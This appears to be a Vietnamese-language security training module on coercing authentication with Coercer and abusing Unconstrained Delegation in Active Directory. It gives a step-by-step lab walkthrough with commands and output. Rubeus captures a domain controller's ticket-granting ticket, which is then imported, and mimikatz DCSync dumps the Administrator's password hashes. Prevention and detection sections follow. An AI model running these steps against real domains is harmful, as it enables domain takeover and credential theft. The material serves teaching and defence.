






# Coercing Attacks & Unconstrained Delegation


## Description

Các cuộc tấn công coercing (ép buộc xác thực) đã trở thành một `one-stop shop` (điểm đến trọn gói) để leo thang quyền từ bất kỳ user nào lên Domain Administrator. Gần như mọi tổ chức có hạ tầng AD mặc định đều dễ bị tổn thương. Ta vừa mới nếm thử các cuộc tấn công coercing khi bàn về `PrinterBug`. Tuy nhiên, còn có vài hàm RPC khác có thể thực hiện cùng chức năng đó. Do đó, bất kỳ domain user nào cũng có thể ép (coerce) `RemoteServer$` xác thực tới bất kỳ máy nào trong domain. Cuối cùng, công cụ [Coercer](https://github.com/p0dalirius/Coercer) đã được phát triển để khai thác đồng thời tất cả các hàm RPC đã biết là dễ bị tổn thương.

Tương tự `PrinterBug`, kẻ tấn công có thể chọn từ một số tuỳ chọn "tiếp nối" (follow up) với kết nối ngược, mà như đã đề cập trước đó, bao gồm:

1. Relay kết nối tới một DC khác và thực hiện DCSync (nếu `SMB Signing` bị tắt).
2. Buộc Domain Controller kết nối tới một máy được cấu hình cho `Unconstrained Delegation` (`UD`) - việc này sẽ cache TGT trong bộ nhớ của UD server, có thể bị bắt/export bằng các công cụ như `Rubeus` và `Mimikatz`.
3. Relay kết nối tới `Active Directory Certificate Services` để lấy một certificate cho Domain Controller. Kẻ tấn công sau đó có thể dùng certificate đó bất cứ lúc nào để xác thực và giả làm Domain Controller (ví dụ, DCSync).
4. Relay kết nối để cấu hình Resource-Based Kerberos Delegation cho máy được relay. Sau đó ta có thể lạm dụng delegation để xác thực với tư cách bất kỳ Administrator nào tới máy đó.

---

## Attack

Ta sẽ lạm dụng tuỳ chọn "tiếp nối" thứ hai, giả định rằng kẻ tấn công đã giành được quyền administrative trên một server được cấu hình cho `Unconstrained Delegation`. Ta sẽ dùng server này để bắt TGT, trong khi `Coercer` sẽ được thực thi từ máy Kali.

Để xác định các hệ thống được cấu hình cho `Unconstrained Delegation`, ta có thể dùng hàm `Get-NetComputer` từ [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) kèm theo switch `-Unconstrained`:

```powershell-session
PS C:\Users\bob\Downloads> Get-NetComputer -Unconstrained | select samaccountname

samaccountname
--------------
DC1$
SERVER01$
WS001$
DC2$
```



`WS001` và `SERVER01` được tin cậy cho Unconstrained delegation (Domain Controller được tin cậy mặc định). Vậy nên WS001 hoặc Server01 sẽ là mục tiêu cho kẻ tấn công. Trong kịch bản của ta, ta đã xâm nhập WS001 và 'Bob', người có quyền administrative trên host này. Ta sẽ khởi động `Rubeus` trong một prompt administrative để giám sát các lần logon mới và trích xuất TGT:

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs


[*] 18/12/2022 22.37.09 UTC - Found new TGT:

  User                  :  bob@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  RenewTill             :  25/12/2022 23.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIE2jCCBNagAwIBBaEDAgEWooID5zCCA+NhggPfMIID26ADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0
GwtFQUdMRS5MT0NBTKOCA6EwggOdoAMCARKhAwIBAqKCA48EggOLxoWz+JE4JEP9VvNlDvGKzqQ1BjjpjjO03haKFPPeszM4Phkb    QQBPfixBqQ3bthdsizmx3hdjNzFVKnUOK2h2CDFPeUia+0rCn1FllimXQwdEFMri7whC2qA4/vy52Y2jJdmkR7ZIRAeU5Yfm373L
iEHgnX4PCA94Ck/BEwUY0bk6VAWkM2FSPgnuiCeQQ4yJMPa3DK6MHYJ/1kZy+VqxwSqov/tVhATshel1vXpr4rz03ofgNtwLDYb+    K5AGYSbSct5w1jTWtGAicCCr1vpcUguIWH0Nh1lQ+tZccVtEtsrjZ/jwCKsadQWIFwhPOnVpf5drUlav1iCXmxWqQr5glW/IOOE1
lHsBolieGSyY20ZHBYjXflCGkO13mRwqO3rQ5KMs8HrC3Aqu7Popaw29at0vzZLinYnWnHUn01hh5e3QyIkqIH3CBvaPbl3RukZ7    jZRBm6BVF7R5KEWp+6Gg2joP6WvXDBCIzqL3jmxQ8NVoeeidgnBuZKpYL45E8jJjxbW4t9D8EdlX9Xu+fj/Fazw08HtRkzwG30vE
	<SNIP>
	<SNIP>
	<SNIP>
	
[*] Ticket cache size: 4
```



Tiếp theo, ta cần biết địa chỉ IP của WS001, có thể lấy được bằng cách chạy `ipconfig`. Một khi đã biết, ta sẽ chuyển sang máy Kali để thực thi `Coercer` nhắm tới DC1, trong khi buộc nó kết nối tới WS001 nếu việc coerce thành công:

```shell-session
[!bash!]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[dc1.eagle.local] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to ws001.eagle.local ...
   [>] Pipe '\PIPE\lsarpc' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
   [>] Pipe '\PIPE\netdfs' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...    [>] Pipe '\PIPE\spoolss' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

[+] All done!

```



Bây giờ, nếu ta chuyển sang WS001 và xem output liên tục mà `Rubeus` cung cấp, thì sẽ có một TGT cho DC1 khả dụng:

```powershell-session
[*] 18/12/2022 22.55.52 UTC - Found new TGT:

  User                  :  DC1$@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  RenewTill             :  24/12/2022 09.28.39
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0    GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkv8ILT9IdJgNgjxbddnICsd5quqFnXS7m7YwJIM/lcwLy4SHI
i1iWbvsTiu078mz28R0sn7Mxvg2oVC7NTw+b2unvmQ3utRLTgaz02WYnGWSBu7gxs+Il/0ekW5ZSX3ESq0AGwPaqUcuWSFDNNfOM
ws/8MlkJeFSFWeHwJL7FbzuCjZ2x/6UUl2IOYq0Ozaf3R+rDJQ6LqpDVAet53IoHDugduBfZoDHTZFntRAoYrmAWdcnFdUEpyZGH    Kj6i2M0TyrxUp3nq022BNB6v+sHgH3SWsMNiba+TYaeRdjiM2nVjhGZTXDuro9rLkYFk1HPXuI/d0RfzVuq9Hh5hVCZRwcM3V2BN
eYRTMeW+lvz1bBgdgK/wlYMS7J99F1V/r6K8zdO7pQ0Zj216DfA42QINPswVL+89gy7PLLm5aYlw8nlbBdvTZrPbeOhtvdBy/pFB    fxrjHA+fW34/Yk+9k6oSPXCaCQ/Rd1qZ/P57/0MDUYRlDs5EYOOxxGQPVFbOqhbG414vGRbi39ALj/MkYG629kCEb9K89p5teo6f
7w/4M6Ytun16sG3GxsWDG6dlZP+fmmOr0nwdXgvT28NQxQ3EEMErX+BojUY6DdRBH2u3fcv1KOA5K7MDma+cVLaa0YjSYZ2IDRaC    0JcgcUexd6EfQPtSnikaA/zzYmu/PSYVXlcg7cFULJIiPuN4f9VlDlVOqj8C3xCwtYo4zRklLESUES9tGK/VfsmN0Q/Fx5ULIa7y
UND/d1HlQ+R6Fnh2GGUPk+LlVw+ScD0kf2nmmlsIwhnGmscpiFs1lprX35Khlx/y5+v9S7bdokZujPpyZactQ4wdfRK++bOWo2ao    Ewrzjuq199JnTQHbxkqGgeKQedOPxOhDccQLYTm44wH73JuE+XoGKmdGbgXfjSBFlTinP9mvZA12NkQupnGYVzJ2rS1T0nf2VVUW
MfIgh8Nz4xYvDHV1iIV4ZrLI7u7ZwJtrlESgO0H0d/k6CpLxo5L7kzhkU+MJggdUFJvS3HskTxZmewEwSdKJn21YfAG1Q6X0nFqk
HdK3RUvxXcycwMvWdfYH2AW06+98q5h+TSJQrMcrp9gT+khLPD4KL2n6+cvC3BVHqge5Nc16LhW7kcNp+JcIzknwAsCZlaXzhz3X
K78ooLfZGaKGoNnDWLUQpYToVgXXSO53HJ3Vgl0MwctV7l+gJdwMtac0VVhH8EAndeSPnEcNOX8mr/30k+9GwM1wtFQNFB03CdoA    qRJBjyFw1h1KKuc61PTWuxVLwGmezshekwoSLOJ7V9G9qNpVQl0AgtTK2SHeobItuD4rhDc3/0jJ4LzsXJieYbLK7dtVfxYtSbeu
ZqXhd7HcSq5SN4LOmEP1tScir+shxQC+hbs3oYx/rHfj8GDDEZ8UwY6I4JF4pQsApKOB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHI    MIHFMIHCoCswKaADAgESoSIEIDs9gBc+2myj4I7mPmXH542vha3A2zfkHbm/RxnK4oMSoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEB
oQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDIyMTIxODIyMzAyMVqmERgPMjAyMjEyMTkwODMwMjFapxEYDzIwMjIxMjI0MDgyODM5
WqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=

[*] Ticket cache size: 5
```



Ta có thể dùng TGT này để xác thực trong domain, trở thành Domain Controller. Từ đó trở đi, DCSync là một cuộc tấn công hiển nhiên (trong số nhiều cuộc khác).

Một cách dùng TGT nói trên là thông qua Rubeus, như sau.
```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x101394

Cached Tickets: (1)

#0>     Client: DC1$ @ EAGLE.LOCAL
        Server: krbtgt/EAGLE.LOCAL @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/21/2023 8:54:04 (local)
        End Time:   4/21/2023 18:54:04 (local)
        Renew Time: 4/28/2023 8:54:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Sau đó, một cuộc tấn công DCSync có thể được thực thi thông qua mimikatz, về cơ bản là lặp lại những gì ta đã làm trong phần DCSync.

```powershell-session
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:eagle.local /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz # exit
Bye!
```
---

## Prevention

Windows không cung cấp khả năng quan sát (visibility) và kiểm soát chi tiết đối với các RPC call để cho phép phát hiện những gì đang được dùng và chặn một số hàm nhất định. Do đó, hiện tại không tồn tại một giải pháp sẵn có (out-of-the-box) để ngăn cuộc tấn công này. Tuy nhiên, có hai cách tiếp cận tổng quát khác nhau để ngăn các cuộc tấn công coercing:

1) Triển khai một RPC firewall của bên thứ ba, chẳng hạn như của [zero networks](https://github.com/zeronetworks/rpcfirewall), và dùng nó để chặn các hàm RPC nguy hiểm. Công cụ này cũng đi kèm một chế độ audit, cho phép giám sát và có được khả năng quan sát xem việc dùng nó có thể gây gián đoạn hoạt động kinh doanh hay không. Hơn nữa, nó còn tiến thêm một bước bằng cách cung cấp chức năng chặn các hàm RPC nếu `OPNUM` nguy hiểm liên quan đến coercing xuất hiện trong request. (Lưu ý rằng với tuỳ chọn này, cứ mỗi hàm RPC mới được phát hiện trong tương lai, ta sẽ phải chỉnh sửa file cấu hình của firewall để bao gồm nó.)
2) Chặn Domain Controller và các server hạ tầng lõi khác kết nối tới các cổng ra (outbound) `139` và `445`, `except` (trừ) tới những máy cần thiết cho AD (cũng như cho hoạt động kinh doanh). Một ví dụ là trong khi ta chặn lưu lượng ra chung tới cổng 139 và 445, ta vẫn nên cho phép nó giữa các Domain Controller; nếu không, domain replication sẽ thất bại. (Lợi ích của giải pháp này là nó cũng sẽ hiệu quả trước các hàm RPC dễ bị tổn thương mới được phát hiện hoặc các phương pháp coercing khác.)

---

## Detection

Như đã đề cập, Windows không cung cấp một giải pháp sẵn có để giám sát hoạt động RPC. RPC Firewall từ [zero networks](https://github.com/zeronetworks/rpcfirewall) là một phương pháp tuyệt vời để phát hiện việc lạm dụng các hàm này và có thể chỉ ra dấu hiệu bị xâm nhập tức thời; tuy nhiên, nếu ta tuân theo khuyến nghị chung là không cài phần mềm bên thứ ba lên Domain Controller thì log của firewall là cơ hội tốt nhất của ta.

Một cuộc tấn công coercing thành công với Coercer sẽ tạo ra log firewall của host như sau, trong đó máy ở `.128` là máy của kẻ tấn công và `.200` là Domain Controller:



Ta có thể thấy rất nhiều kết nối đến (incoming) tới DC, theo sau là các kết nối ra từ DC tới máy kẻ tấn công; quá trình này lặp lại vài lần khi Coercer đi qua một số hàm khác nhau. Toàn bộ lưu lượng ra đều hướng tới cổng 445.

Nếu ta tiến hành chặn lưu lượng ra tới cổng 445, thì ta sẽ quan sát được hành vi sau:



Bây giờ ta có thể thấy rằng mặc dù kết nối vào thành công, firewall vẫn drop kết nối ra, và do đó, kẻ tấn công không nhận được bất kỳ TGT bị ép (coerced) nào. Đôi khi, khi cổng 445 bị chặn, máy sẽ cố kết nối tới cổng 139 thay thế, nên chặn cả hai cổng `139` và `445` được khuyến nghị.

Điều trên cũng có thể được dùng để phát hiện, vì bất kỳ lưu lượng bị drop ngoài dự kiến nào tới cổng `139` hoặc `445` đều đáng ngờ.
